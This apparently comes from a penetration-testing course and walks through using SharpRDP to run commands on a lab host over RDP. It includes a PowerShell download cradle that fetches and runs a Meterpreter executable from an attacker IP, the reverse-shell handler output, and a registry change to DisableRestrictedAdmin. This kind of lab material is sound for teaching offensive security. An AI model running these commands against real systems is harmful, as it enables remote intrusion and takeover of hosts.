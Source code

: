 _SharpRDP_[2](https://portal.offsec.com/courses/pen-200-44065/learning/vulnerability-scanning-48659/wrapping-up-48703/wrapping-up-48710#fn-local_id_5382-2),[3](https://portal.offsec.com/courses/pen-200-44065/learning/vulnerability-scanning-48659/wrapping-up-48703/wrapping-up-48710#fn-local_id_5382-3) is a C# application that uses the non-scriptable interfaces exposed by mstscax.dll to perform authentication in the same way as mstsc.exe.

Once authentication is performed, SharpRDP allows us to execute code through _SendKeys_.[4](https://portal.offsec.com/courses/pen-200-44065/learning/vulnerability-scanning-48659/wrapping-up-48703/wrapping-up-48710#fn-local_id_5382-4) In this manner, no GUI access is required and setting up a reverse tunnel is unnecessary.

To demonstrate this, we'll use the pre-compiled version of SharpRDP located in C:\Tools. We'll specify the computername, username, and password along with the command to be executed. In this example, we'll simply execute Notepad.

```
C:\Tools> SharpRDP.exe computername=appsrv01 command=notepad username=corp1\dave password=lab
[-] Logon Error           :  -2 - ARBITRATION_CODE_CONTINUE_LOGON
[+] Connected to          :  appsrv01
[+] User not currently logged in, creating new session
[+] Execution priv type   :  non-elevated
[+] Executing notepad
[+] Disconnecting from    :  appsrv01
[+] Connection closed     :  appsrv01
```

> Listing 20 - Spawning Notepad with SharpRDP

Since this is not terribly useful, we'll extend this example to obtain a reverse Meterpreter shell. First, we'll generate a Meterpreter executable and place it in our Apache server web root, then we'll set up msfconsole to catch the shell.

Finally, we'll use SharpRDP to execute a PowerShell download cradle on appsrv01 that pulls the Meterpreter executable and subsequently executes it with stacked commands:

```
C:\Tools> sharprdp.exe computername=appsrv01 command="powershell (New-Object System.Net.WebClient).DownloadFile('http://192.168.119.120/met.exe', 'C:\Windows\Tasks\met.exe'); C:\Windows\Tasks\met.exe" username=corp1\dave password=lab
[-] Logon Error           :  -2 - ARBITRATION_CODE_CONTINUE_LOGON
[+] Connected to          :  appsrv01
[+] User not currently logged in, creating new session
[+] Execution priv type   :  non-elevated
[+] Executing powershell (new-object system.net.webclient).downloadfile('http://192.168.119.120/met.exe', 'c:\windows\tasks\met.exe'); c:\windows\tasks\met.exe
[+] Disconnecting from    :  appsrv01
[+] Connection closed     :  appsrv01
```

> Listing 21 - Spawning a reverse Meterpreter shell through SharpRDP

This results in a Meterpreter shell on our Kali machine as displayed in Listing 22:

```
msf5 exploit(multi/handler) > exploit

[*] Started HTTP reverse handler on http://192.168.119.120:443
[*] http://192.168.119.120:443 handling request from 192.168.120.6; (UUID: nwv7gu7a) Staging x64 payload (207449 bytes) ...
[*] Meterpreter session 1 opened (192.168.119.120:443 -> 192.168.120.6:52261)
```


[appsrv01]: PS C:\Users\admin\Documents> New-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Lsa" -Name DisableRestrictedAdmin -Value 0
[appsrv01]: PS C:\Users\admin\Documents> Exit
